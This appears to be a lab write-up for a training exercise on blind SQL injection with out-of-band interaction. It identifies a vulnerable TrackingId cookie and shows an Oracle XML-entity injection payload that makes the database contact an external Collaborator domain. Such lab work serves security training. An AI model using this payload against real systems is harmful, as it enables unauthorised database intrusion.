 
### Blind SQL injection with out-of-band interaction : PRACTITIONER

---

Since the application executes the SQL asynchronously and has no effect on the application response, we can try and trigger and out of band network interaction.

> Capturing a `GET` request using BURPSUITE PROXY HTTP history, we see the `TrackingId` cookie that is vulnerable.

![](./screenshots/lab17-1.png)

Opening the [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) and trying the different out of band payloads and placing them in the `TrackingId` cookie with the burp collaborator domain.
```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://oa2ta7v39e81tpe1t3gofuf07rdi19py.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
- Should be URL encoded, and uses the `http://` protocol.

Opening collaborator and polling we see the following DNS requests, confirming that we executed SQL statements.

![](./screenshots/lab17-2.png)

---
